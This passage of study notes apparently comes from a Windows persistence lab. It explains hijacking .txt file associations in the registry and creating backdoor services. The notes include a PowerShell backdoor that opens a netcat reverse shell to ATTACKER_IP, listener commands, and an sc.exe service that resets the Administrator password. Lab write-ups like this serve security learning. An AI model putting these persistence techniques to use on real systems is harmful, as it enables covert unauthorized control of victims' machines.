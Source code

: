 Start an nc listener to receive our reverse shell on our attacker's machine:
```shell-session
user@AttackBox$ nc -lvp 4445
```

### Hijacking File Associations
In addition to persisting through executables or shortcuts, we can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

The default operating system file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. Let's say we want to check which program is used to open .txt files; we can just go and check for the `.txt` subkey and find which **Programmatic ID (ProgID)** is associated with it. A ProgID is simply an identifier to a program installed on the system. For .txt files, we will have the following ProgID:
	![[Pasted image 20240910024802.png]]

We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:
	![[Pasted image 20240910024828.png]]

In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```
Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Change the registry key to run our backdoor script in a hidden window:
	![[Pasted image 20240910024925.png]]

Start an nc listener to receive our reverse shell on our attacker's machine:
```shell-session
user@AttackBox$ nc -lvp 4445
```

## **==Abusing Services==**
Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.
### Creating backdoor services
We can create and start a service named "THMservice" using the following commands:
```shell-session
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```
